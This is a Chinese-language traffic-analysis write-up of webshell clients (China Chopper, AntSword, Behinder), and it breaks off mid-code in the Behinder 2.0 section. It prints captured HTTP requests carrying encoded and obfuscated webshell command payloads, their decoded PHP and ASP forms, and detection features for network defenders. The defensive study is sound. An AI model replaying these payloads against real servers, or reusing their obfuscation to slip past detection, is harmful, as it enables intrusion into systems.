








# 参考文章
[Webshell流量特征浅析 - JohnFrod's Blog](https://johnfrod.top/%E5%AE%89%E5%85%A8/webshell%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E6%B5%85%E6%9E%90/)<br />[webshell工具流量分析 – Daniel](http://danielw.top/index.php/daniel/251/)<br />[冰蝎-Behinder 各版本流量浅析 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/351825.html)<br />[常见WebShell客户端的流量特征及检测思路 - NoCirc1e - 博客园](https://www.cnblogs.com/NoCirc1e/p/16275608.html)<br />[记一次解密wireshark抓取的冰蝎通信流量 - Zh1z3ven - 博客园](https://www.cnblogs.com/CoLo/p/13233359.html)<br />[主流WebShell工具流量层分析 - 先知社区](https://xz.aliyun.com/t/9404#toc-3)
# 中国菜刀
## 下载地址
[GitHub - raddyfiy/caidao-official-version: 中国菜刀官方版本，拒绝黑吃黑，来路清晰](https://github.com/raddyfiy/caidao-official-version)
## 中国菜刀2011版本及2014版本各语言WebShell链接流量特征
### PHP类WebShell链接流量
```http
POST /webshell.php HTTP/1.1
Cache-Control: no-cache
X-Forwarded-For: 40.83.114.50
Referer: http://192.168.180.226
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 192.168.180.226
Content-Length: 685
Connection: Close

=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7aWYoJEQ9PSIiKSREPWRpcm5hbWUoJF9TRVJWRVJbIlBBVEhfVFJBTlNMQVRFRCJdKTskUj0ieyREfVx0IjtpZihzdWJzdHIoJEQsMCwxKSE9Ii8iKXtmb3JlYWNoKHJhbmdlKCJBIiwiWiIpIGFzICRMKWlmKGlzX2RpcigieyRMfToiKSkkUi49InskTH06Ijt9JFIuPSJcdCI7JHU9KGZ1bmN0aW9uX2V4aXN0cygncG9zaXhfZ2V0ZWdpZCcpKT9AcG9zaXhfZ2V0cHd1aWQoQHBvc2l4X2dldGV1aWQoKSk6Jyc7JHVzcj0oJHUpPyR1WyduYW1lJ106QGdldF9jdXJyZW50X3VzZXIoKTskUi49cGhwX3VuYW1lKCk7JFIuPSIoeyR1c3J9KSI7cHJpbnQgJFI7O2VjaG8oInw8LSIpO2RpZSgpOw%3D%3D
```
其中特征主要在body中，将body中流量进行url解码后如下：
```http
=@eval(base64_decode($_POST[z0]));&z0=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskRD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7aWYoJEQ9PSIiKSREPWRpcm5hbWUoJF9TRVJWRVJbIlBBVEhfVFJBTlNMQVRFRCJdKTskUj0ieyREfVx0IjtpZihzdWJzdHIoJEQsMCwxKSE9Ii8iKXtmb3JlYWNoKHJhbmdlKCJBIiwiWiIpIGFzICRMKWlmKGlzX2RpcigieyRMfToiKSkkUi49InskTH06Ijt9JFIuPSJcdCI7JHU9KGZ1bmN0aW9uX2V4aXN0cygncG9zaXhfZ2V0ZWdpZCcpKT9AcG9zaXhfZ2V0cHd1aWQoQHBvc2l4X2dldGV1aWQoKSk6Jyc7JHVzcj0oJHUpPyR1WyduYW1lJ106QGdldF9jdXJyZW50X3VzZXIoKTskUi49cGhwX3VuYW1lKCk7JFIuPSIoeyR1c3J9KSI7cHJpbnQgJFI7O2VjaG8oInw8LSIpO2RpZSgpOw==
```
其中特征点有如下三部分，<br />第一：“eval”，eval函数用于执行传递的攻击payload，这是必不可少的；<br />第二：(base64_decode($_POST[z0]))，(base64_decode($_POST[z0]))将攻击payload进行Base64解码，因为菜刀默认是将攻击载荷使用Base64编码，以避免被检测；<br />第三：&z0=QGluaV9zZXQ…，该部分是传递攻击payload，此参数z0对应$_POST[z0]接收到的数据，该参数值是使用Base64编码的，所以可以利用base64解码可以看到攻击明文。<br />注：

- 有少数时候eval方法会被assert方法替代
- $_POST也会被$_GET、$_REQUEST替代
- z0是菜刀默认的参数，这个地方也有可能被修改为其他参数名
### JSP类WebShell链接流量
```http
POST /muma.jsp HTTP/1.1
Cache-Control: no-cache
X-Forwarded-For: 213.225.150.214
Referer: http://192.200.41.103
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 192.200.41.103:8090
Content-Length: 13
Connection: Close

i=A&z0=GB2312
```
该流量是WebShell链接流量的第一段链接流量，其中特征主要在i=A&z0=GB2312，菜刀链接JSP木马时，第一个参数定义操作，其中参数值为A-Q，如i=A，第二个参数指定编码，其参数值为编码，如z0=GB2312，有时候z0后面还会接着又z1=参数用来加入攻击载荷。<br />注：其中参数名i、z0、z1这种参数名是会变的，但是其参数值以及这种形式是不会变得，最主要就是第一个参数值在A-Q，这种是不变的。
### ASP类WebShell链接流量
```http
POST /server.asp HTTP/1.1
Cache-Control: no-cache
X-Forwarded-For: 177.169.197.49
Referer: http://192.168.180.226
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: 192.168.180.226
Content-Length: 968
Connection: Close
 
caidao=Execute("Execute(""On+Error+Resume+Next:Function+bd%28byVal+s%29%3AFor+i%3D1+To+Len%28s%29+Step+2%3Ac%3DMid%28s%2Ci%2C2%29%3AIf+IsNumeric%28Mid%28s%2Ci%2C1%29%29+Then%3AExecute%28%22%22%22%22bd%3Dbd%26chr%28%26H%22%22%22%22%26c%26%22%22%22%22%29%22%22%22%22%29%3AElse%3AExecute%28%22%22%22%22bd%3Dbd%26chr%28%26H%22%22%22%22%26c%26Mid%28s%2Ci%2B2%2C2%29%26%22%22%22%22%29%22%22%22%22%29%3Ai%3Di%2B2%3AEnd+If%22%22%26chr%2810%29%26%22%22Next%3AEnd+Function:Response.Write(""""->|""""):Execute(""""On+Error+Resume+Next:""""%26bd(""""44696D20533A533D5365727665722E4D61707061746828222E2229266368722839293A53455420433D4372656174654F626A6563742822536372697074696E672E46696C6553797374656D4F626A65637422293A496620457272205468656E3A4572722E436C6561723A456C73653A466F722045616368204420696E20432E4472697665733A533D5326442E44726976654C657474657226636872283538293A4E6578743A456E642049663A526573706F6E73652E5772697465285329"""")):Response.Write(""""|<-""""):Response.End"")")
```
其中body流量进行URL解码后
```powershell
caidao=Execute("Execute(""On Error Resume Next:Function bd(byVal s):For i=1 To Len(s) Step 2:c=Mid(s,i,2):If IsNumeric(Mid(s,i,1)) Then:Execute(""""bd=bd&chr(&H""""&c&"""")""""):Else:Execute(""""bd=bd&chr(&H""""&c&Mid(s,i+2,2)&"""")""""):i=i+2:End If""&chr(10)&""Next:End Function:Response.Write(""""->|""""):Execute(""""On Error Resume Next:""""&bd(""""44696D20533A533D5365727665722E4D61707061746828222E2229266368722839293A53455420433D4372656174654F626A6563742822536372697074696E672E46696C6553797374656D4F626A65637422293A496620457272205468656E3A4572722E436C6561723A456C73653A466F722045616368204420696E20432E4472697665733A533D5326442E44726976654C657474657226636872283538293A4E6578743A456E642049663A526573706F6E73652E5772697465285329"""")):Response.Write(""""|<-""""):Response.End"")")
```
其中特征点有如下三部分<br />第一：“Execute”，Execute函数用于执行传递的攻击payload，这是必不可少的，这个等同于php类中eval函数；<br />第二：OnError ResumeNext，这部分是大部分ASP客户端中必有的流量，能保证不管前面出任何错，继续执行以下代码。<br />第三：Response.Write和Response.End是必有的，是来完善整个操作的。<br />这种流量主要识别这几部分特征，在正常流量中基本没有。<br />注：OnError Resume Next这个特征在大部分流量中存在，极少数情况没有。
## 中国菜刀2016版本各语言WebShell链接流量特征
### PHP类WebShell链接流量
```http
POST /webshell.php HTTP/1.1
X-Forwarded-For: 50.182.119.137
Referer: http://192.168.180.226/
Content-Type: application/x-www-form-urlencoded
Host: 192.168.180.226
Content-Length: 673
Cache-Control: no-cache
 
=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JEQ9ZGlybmFtZShfX0ZJTEVfXyk7JFI9InskRH1cdCI7aWYoc3Vic3RyKCRELDAsMSkhPSIvIil7Zm9yZWFjaChyYW5nZSgiQSIsIloiKSBhcyAkTClpZihpc19kaXIoInskTH06IikpJFIuPSJ7JEx9OiI7fSRSLj0iXHQiOyR1PShmdW5jdGlvbl9leGlzdHMoJ3Bvc2l4X2dldGVnaWQnKSk%2FQHBvc2l4X2dldHB3dWlkKEBwb3NpeF9nZXRldWlkKCkpOicnOyR1c3I9KCR1KT8kdVsnbmFtZSddOkBnZXRfY3VycmVudF91c2VyKCk7JFIuPXBocF91bmFtZSgpOyRSLj0iKHskdXNyfSkiO3ByaW50ICRSOztlY2hvKCJYQFkiKTtkaWUoKTs%3D'));\");"));
```
其中特征主要在body中，将body中部分如下：
```http
=array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JEQ9ZGlybmFtZShfX0ZJTEVfXyk7JFI9InskRH1cdCI7aWYoc3Vic3RyKCRELDAsMSkhPSIvIil7Zm9yZWFjaChyYW5nZSgiQSIsIloiKSBhcyAkTClpZihpc19kaXIoInskTH06IikpJFIuPSJ7JEx9OiI7fSRSLj0iXHQiOyR1PShmdW5jdGlvbl9leGlzdHMoJ3Bvc2l4X2dldGVnaWQnKSk%2FQHBvc2l4X2dldHB3dWlkKEBwb3NpeF9nZXRldWlkKCkpOicnOyR1c3I9KCR1KT8kdVsnbmFtZSddOkBnZXRfY3VycmVudF91c2VyKCk7JFIuPXBocF91bmFtZSgpOyRSLj0iKHskdXNyfSkiO3ByaW50ICRSOztlY2hvKCJYQFkiKTtkaWUoKTs%3D'));\");"));
```
这个版本中流量最大的改变就是将特征进行打断混淆，这也给我们识别特征提供一种思路。<br />其中特征点有如下三部分，<br />第一：“"Ba"."SE6"."4_dEc"."OdE”，这部分是将base64解码打断使用.来连接。<br />第二：@ev"."al，这部分也是将@eval这部分进行打断连接，可以识别这段代码即可。<br />第三：QGluaV9zZXQoImRpc3BsYXlf…，该部分是传递攻击payload，payload依旧使用Base64编码的，所以可以利用base64解码可以看到攻击明文来识别。<br />注：有少数时候eval方法会被assert方法替代。
### JSP类WebShell链接流量
```http
POST /muma.jsp HTTP/1.1
X-Forwarded-For: 89.21.63.3
Referer: http://192.200.41.103:8090/
Content-Type: application/x-www-form-urlencoded
Host: 192.200.41.103:8090
Content-Length: 20
Cache-Control: no-cache
 
=A&z0=GB2312&z1=&z2=
```
该版本JSPwebshell流量与之前版本一样，<br />所以分析如上：该流量是WebShell链接流量的第一段链接流量，其中特征主要在i=A&z0=GB2312，菜刀链接JSP木马时，第一个参数定义操作，其中参数值为A-Q，如i=A，第二个参数指定编码，其参数值为编码，如z0=GB2312，有时候z0后面还会接着又z1=、z2=参数用来加入攻击载荷。<br />注：其中参数名i、z0、z1这种参数名是会变的，但是其参数值以及这种形式是不会变得，最主要就是第一个参数值在A-Q，这种是不变的。
### ASP类WebShell链接流量
```http
POST /server.aspx HTTP/1.1
X-Forwarded-For: 121.125.8.145
Referer: http://192.168.180.226/
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Host: 192.168.180.226
Content-Length: 639
Cache-Control: no-cache
 
caidao=%u0052%u0065sponse%u002E%u0057rit%u0065("X@Y");var %u0065rr:%u0045xc%u0065ption;
%u0074ry%u007B%u0065val(Syst%u0065m%u002ET%u0065xt%u002E%u0045ncoding%u002EG%u0065t%u0045ncoding(936)%u002EG%u0065tString(Syst%u0065m.Conv%u0065rt%u002EFromBas%u006564String("dmFyIGM9U3lzdGVtLklPLkRpcmVjdG9yeS5HZXRMb2dpY2FsRHJpdmVzKCk7UmVzcG9uc2UuV3JpdGUoU2VydmVyLk1hcFBhdGgoIi8iKSsiXHQiKTtmb3IodmFyIGk9MDtpPD1jLmxlbmd0aC0xO2krKylSZXNwb25zZS5Xcml0ZShjW2ldWzBdKyI6Iik7")),"unsaf%u0065");
%u007Dcatch(err)%u007B%u0052esponse%u002E%u0057rite("ER"%2B"ROR:// "%2Berr.message);%u007D%u0052%u0065sponse.%u0057rit%u0065("X@Y");%u0052espons%u0065.%u0045nd();
```
其中body流量为：
```http

caidao=%u0052%u0065sponse%u002E%u0057rit%u0065("X@Y");var %u0065rr:%u0045xc%u0065ption;
%u0074ry%u007B%u0065val(Syst%u0065m%u002ET%u0065xt%u002E%u0045ncoding%u002EG%u0065t%u0045ncoding(936)%u002EG%u0065tString(Syst%u0065m.Conv%u0065rt%u002EFromBas%u006564String("dmFyIGM9U3lzdGVtLklPLkRpcmVjdG9yeS5HZXRMb2dpY2FsRHJpdmVzKCk7UmVzcG9uc2UuV3JpdGUoU2VydmVyLk1hcFBhdGgoIi8iKSsiXHQiKTtmb3IodmFyIGk9MDtpPD1jLmxlbmd0aC0xO2krKylSZXNwb25zZS5Xcml0ZShjW2ldWzBdKyI6Iik7")),"unsaf%u0065");
%u007Dcatch(err)%u007B%u0052esponse%u002E%u0057rite("ER"%2B"ROR:// "%2Berr.message);%u007D%u0052%u0065sponse.%u0057rit%u0065("X@Y");%u0052espons%u0065.%u0045nd();
```
2016版本流量这链接流量最大的变化在于body中部分字符被unicode编码替换混淆，所以这种特征需要提取出一种形式来，匹配这个混淆特征，比如“字符+%u0000+字符+%u0000”这种形式来判断该流量。<br />或者直接将这部分代码直接进行unicode解码，可以获取到如2011或2014版本的asp所示的流量。可以根据上一段特征来进行判断。<br />这种流量主要识别这几部分特征，在正常流量中基本没有。
# 中国蚁剑(AntSword)
蚁剑的很多代码源于中国菜刀，所以他的链接流量与中国菜刀很相似，但是蚁剑可以扩充性很好，可以对进行加密、混淆等绕过处理。蚁剑默认支持ASP以及PHP的webshell链接。
## 下载地址
[https://github.com/AntSwordProject/antSword](https://github.com/AntSwordProject/antSword)
## 蚁剑PHP类WebShell链接流量
```http
POST /uploadfiles/shell.php HTTP/1.1
Host: 192.168.180.226
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 889
Connection: close
 
cmd=%40ini_set%28%22display_errors%22%2C%20%220%22%29%3B%40set_time_limit%280%29%3Becho%20%225434f%22%3Btry%7B%24D%3Ddirname%28%24_SERVER%5B%22SCRIPT_FILENAME%22%5D%29%3Bif%28%24D%3D%3D%22%22%29%24D%3Ddirname%28%24_SERVER%5B%22PATH_TRANSLATED%22%5D%29%3B%24R%3D%22%7B%24D%7D%09%22%3Bif%28substr%28%24D%2C0%2C1%29%21%3D%22%2F%22%29%7Bforeach%28range%28%22C%22%2C%22Z%22%29as%20%24L%29if%28is_dir%28%22%7B%24L%7D%3A%22%29%29%24R.%3D%22%7B%24L%7D%3A%22%3B%7Delse%7B%24R.%3D%22%2F%22%3B%7D%24R.%3D%22%09%22%3B%24u%3D%28function_exists%28%22posix_getegid%22%29%29%3F%40posix_getpwuid%28%40posix_geteuid%28%29%29%3A%22%22%3B%24s%3D%28%24u%29%3F%24u%5B%22name%22%5D%3A%40get_current_user%28%29%3B%24R.%3Dphp_uname%28%29%3B%24R.%3D%22%09%7B%24s%7D%22%3Becho%20%24R%3B%3B%7Dcatch%28Exception%20%24e%29%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage%28%29%3B%7D%3Becho%20%220a5f4%22%3Bdie%28%29%3B
```
其中body流量进行URL解码后为：
```http
cmd=@ini_set("display_errors", "0");
@set_time_limit(0);echo "5434f";try{$D=dirname($_SERVER["SCRIPT_FILENAME"]);
if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D} ";
if(substr($D,0,1)!="/"){foreach(range("C","Z")as $L)
if(is_dir("{$L}:"))$R.="{$L}:";}else{$R.="/";}$R.=" ";
$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";$s=($u)?$u["name"]:@get_current_user();
$R.=php_uname();$R.=" {$s}";
echo $R;;}catch(Exception $e){echo "ERROR://".$e->getMessage();};echo "0a5f4";die();
```
其中流量最中明显的特征为**@ini_set("display_errors","0");**这段代码基本是所有WebShell客户端链接PHP类WebShell都有的一种代码，但是有的客户端会将这段编码或者加密，而蚁剑是明文，所以较好发现。
### 蚁剑ASP类WebShell链接流量
```http
POST /uploadfiles/shell.php HTTP/1.1
Host: 192.168.180.226
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1248
Connection: close
 
cmd=eval%28%22Ex%22%26cHr%28101%29%26%22cute%28%22%22Server.ScriptTimeout%3D3600%3AOn%20Error%20Resume%20Next%3AFunction%20bd%28byVal%20s%29%3AFor%20i%3D1%20To%20Len%28s%29%20Step%202%3Ac%3DMid%28s%2Ci%2C2%29%3AIf%20IsNumeric%28Mid%28s%2Ci%2C1%29%29%20Then%3AExecute%28%22%22%22%22bd%3Dbd%26chr%28%26H%22%22%22%22%26c%26%22%22%22%22%29%22%22%22%22%29%3AElse%3AExecute%28%22%22%22%22bd%3Dbd%26chr%28%26H%22%22%22%22%26c%26Mid%28s%2Ci%2B2%2C2%29%26%22%22%22%22%29%22%22%22%22%29%3Ai%3Di%2B2%3AEnd%20If%22%22%26chr%2810%29%26%22%22Next%3AEnd%20Function%3AResponse.Write%28%22%22%22%22a6bbf%22%22%22%22%29%3AEx%22%26cHr%28101%29%26%22cute%28%22%22%22%22On%20Error%20Resume%20Next%3A%22%22%22%22%26bd%28%22%22%22%2244696D20533A53455420433D4372656174654F626A6563742822536372697074696E672E46696C6553797374656D4F626A65637422293A496620457272205468656E3A533D224552524F523A2F2F2022264572722E4465736372697074696F6E3A4572722E436C6561723A456C73653A533D5365727665722E4D61707061746828222E2229266368722839293A466F722045616368204420696E20432E4472697665733A533D5326442E44726976654C657474657226636872283538293A4E6578743A456E642049663A526573706F6E73652E5772697465285329%22%22%22%22%29%29%3AResponse.Write%28%22%22%22%226a525%22%22%22%22%29%3AResponse.End%22%22%29%22%29
```
其中body流量进行URL解码后为：
```http
cmd=eval("Ex"&cHr(101)&"cute(""Server.ScriptTimeout=3600:On Error Resume Next:Function bd(byVal s):For i=1 To Len(s) Step 2:c=Mid(s,i,2):If IsNumeric(Mid(s,i,1)) Then:Execute(""""bd=bd&chr(&H""""&c&"""")""""):Else:Execute(""""bd=bd&chr(&H""""&c&Mid(s,i+2,2)&"""")""""):i=i+2:End If""&chr(10)&""Next:End Function:Response.Write(""""a6bbf""""):Ex"&cHr(101)&"cute(""""On Error Resume Next:""""&bd(""""44696D20533A53455420433D4372656174654F626A6563742822536372697074696E672E46696C6553797374656D4F626A65637422293A496620457272205468656E3A533D224552524F523A2F2F2022264572722E4465736372697074696F6E3A4572722E436C6561723A456C73653A533D5365727665722E4D61707061746828222E2229266368722839293A466F722045616368204420696E20432E4472697665733A533D5326442E44726976654C657474657226636872283538293A4E6578743A456E642049663A526573706F6E73652E5772697465285329"""")):Response.Write(""""6a525""""):Response.End"")")
```
我们可以看出蚁剑针对ASP类的WebShell流量与菜刀的流量很像，其中特征也是相同，如OnError ResumeNext、Response.End、Response.Write，其中execute在蚁剑中被打断混淆了，变成了拼接形式Ex"&cHr(101)&"cute，同时该流量中也使用了eval参数，可以被认为明显特征
### 蚁剑绕过特征流量
由于蚁剑中包含了很多加密、绕过插件，所以导致很多流量被加密后无法识别，但是蚁剑混淆加密后还有一个比较明显的特征，即为参数名大多以“_0x......=”这种形式（下划线可替换为其他）<br />所以，以_0x开头的参数名，后面为加密数据的数据包也可识别为蚁剑的流量特征
# 冰蝎
## 下载地址
[https://github.com/rebeyond/Behinder](https://github.com/rebeyond/Behinder)
## 冰蝎1.0
冰蝎V1.0版本在初期交互通讯时，特征较为明显，user-agent与正常业务流量明显不同。<br />可以通过对 **user-agent**进行检测分析。<br />其次在POST返回包中相对正常流量多了 **Transfer-Encoding: chunked**，Transfer-Encoding主要是用来改变报文格式，这里指的是利用分块进行传输。可以基于此特征值进行检测<br />当然，也可以用更简单的方法进行检测，比如url中包含 **.php?pass=**来进行检测<br />由于该明显特征所以无需分析其流量也可识别V1.0的流量
### 冰蝎 1.0 与服务端通信流量特征：
GET请求包
```http
GET /shell.php?pass=1 HTTP/1.1
User-Agent: Java/1.8.0_211
Host: 192.168.66.136
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

- 特征：Java/1.8.0_211

POST请求包
```http
POST /shell.php HTTP/1.1
Content-Type: application/octet-stream
Cookie: null;PHPSESSID=6dclf3mic9i86q7r6snpk34ef1; path=/
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_211
Host: 192.168.66.136
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 1624
D3dH8lwIFCCGYS9Yca  （此处省略加密字符信息）
```
POST返回包
```http
HTTP/1.1 200 OK
Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
X-Powered-By: PHP/5.4.45
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/html
1f4c0（此处省略加密字符信息）
```

- 特征：
   - 请求包Content-Type:application/octet-stream
   - 返回包Transfer-Encoding:chunked
### 特征检测/思路
基于GET包的检测特征：

- url包含.php?pass=（不要单独检测，与业务冲突大易误报）
- user-agent包含Java/*
- 请求包Content-Type:application/octet-stream

基于POST包的检测特征：

- user-agent包含Java/*
- 返回包包含：Transfer-Encoding: chunked
- 请求包Content-Type:application/octet-stream

v1.0版本流量特征较多，但由于其已基本不再使用，所以就总结一些最具有代表性的
## 冰蝎2.0
冰蝎V2.0采取了 **动态密钥协商的机制**，这也成为了其最大的特征之一<br /><br />V2.0中通信过程分为两个阶段

1. 密钥协商
2. 加密传输
### 密钥协商
1）客户端通过GET或者POST方法，形如http://127.0.0.1/shell.php?pass=645的方式，向上传了 刚刚使用冰蝎生成的webshell的服务器请求服务器密钥<br />2）服务器使用随机数MD5的高16位作为密钥，存储到会话的$_SESSION变量中，并返回密钥给客户端
```php
if (isset($_GET['pass']))
